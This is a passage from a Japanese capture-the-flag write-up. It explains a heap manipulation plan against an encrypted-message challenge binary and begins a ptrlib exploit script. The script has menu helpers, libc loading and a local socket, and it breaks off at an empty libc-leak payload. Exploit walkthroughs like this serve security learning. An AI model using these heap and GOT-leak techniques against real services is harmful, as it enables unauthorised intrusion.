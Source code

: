 んー，`st_encrypt`用のmallocがされていない...？

`create_info`関数を読み直したら，information[i]がNULLのときだけmallocしています．
だから削除時に`st_encrypt`はfreeしなかったんですね．

ということで別の方法でいきましょう．
メッセージの暗号化オプションを聞かれたときに不正なオプションを答えると何もせずに終了します．
したがって，`create_info`の0x28バイトがmallocされるだけで終了するのです．
これはinformationを消費してくれるので便利です．

informationを消費してmsgやencmsgのポインタを変えないので，今度こそ`st_encrypt`の内容を上書きできます．

まずはputsのGOTアドレスからlibcのアドレスをリークしましょう．
```python
from ptrlib import *

def encrypt_message(mode, size, message):
    sock.recvuntil(">")
    sock.sendline("1")
    sock.recvuntil(">")
    sock.sendline(str(mode))
    if 1 <= mode <= 2:
        sock.recvuntil(">")
        sock.sendline(str(size))
        sock.recvuntil("message: ")
        sock.sendline(message)
        sock.recvuntil("message is: ")
        return sock.recvline().rstrip()
    else:
        return None

def remove_encrypted_message(index):
    sock.recvuntil(">")
    sock.sendline("2")
    sock.recvuntil("remove: ")
    sock.sendline(str(index))

def view_encrypted_message(index):
    sock.recvuntil(">")
    sock.sendline("3")
    sock.recvuntil("Message #" + str(index) + "\n")
    sock.recvuntil("Plaintext: ")
    plaintext = sock.recvline().rstrip()
    sock.recvuntil("Ciphertext: ")
    ciphertext = sock.recvline().rstrip()
    return plaintext, ciphertext

def edit_encrypted_message(index, message):
    sock.recvuntil(">")
    sock.sendline("4")
    sock.recvuntil("edit\n")
    sock.sendline(str(index))
    sock.recvuntil("message\n")
    sock.sendline(message)

elf = ELF("./pwnable")
plt_puts = 0x004006e0
libc = ELF("./libc-2.17.so")
sock = Socket("127.0.0.1", 9001)
_ = input()

sock.recvline()
sock.sendline("0")

# libc leak
payload = b''
```